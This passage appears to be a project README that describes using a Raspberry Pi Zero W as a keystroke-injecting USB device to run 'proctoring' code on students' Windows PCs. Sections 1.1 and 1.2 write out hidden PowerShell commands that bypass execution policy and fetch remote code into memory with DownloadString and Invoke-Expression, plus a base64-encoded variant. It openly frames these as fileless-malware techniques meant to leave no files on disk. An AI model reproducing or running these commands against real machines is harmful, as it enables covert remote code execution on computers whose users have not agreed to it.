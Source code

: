 # 1. Fileless Execution

**Prerequisite:**
- The Raspberry Pi has already been configured to achieve composite mode (See Libcomposite for more info)

Using the Raspberry Pi Zero W, HID mode, keystroke can be sent to execute "Run". Following which, additional keystrokes command can be sent from the examples below to conduct proctoring.  

With the Fileless Execution method, we do not need to copy any external binary executable/scripts to be able to conduct proctoring. Instead we utilize a Windows built-in software Powershell, to download additional scripts and run them purely in memory. 

Reference materials:
- https://www.mcafee.com/enterprise/en-us/assets/solution-briefs/sb-fileless-malware-execution.pdf
- https://www.varonis.com/blog/fileless-malware
- https://www.linkedin.com/pulse/go-hell-powershell-powerdown-attacks-kirtar-oza-cissp-cisa-ms-

## 1.1. Utilizing DownloadString and Invoke-Expression 
```
powershell.exe -executionpolicy bypass -w hidden "iex(New-Object System.Net.WebClient).DownloadString('<proctoring script url>')
```
Executing the above allow us conduct proctoring directly in to the memory of the Student's PC.  
This is possible because of two Powershell command 
- "DownloadString" where it does not download any file to disk but copies content of the remote file. 
- "Invoke-Expression a.k.a iex" where it runs specified string as a command.

## 1.2. Utilizing EncodedCommand
To do this we must first, encode our script into base64 using the script below and taking note of the encoded string
```
$command = '<the whole script>'
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand = [Convert]::ToBase64String($bytes)
write-host $encodedCommand
```
After we know the encoded string, runnning the command below will allow us to conduct proctoring without needing to drop any files into the student's PC. In this case, we would not even need to have a remote script stored anywhere
```
powershell.exe -executionpolicy bypass -w hidden -e <base64encodedstring>
```
The EncodedCommand a.k.a -e, will read the following given as a base64 string and proceed to execute it 
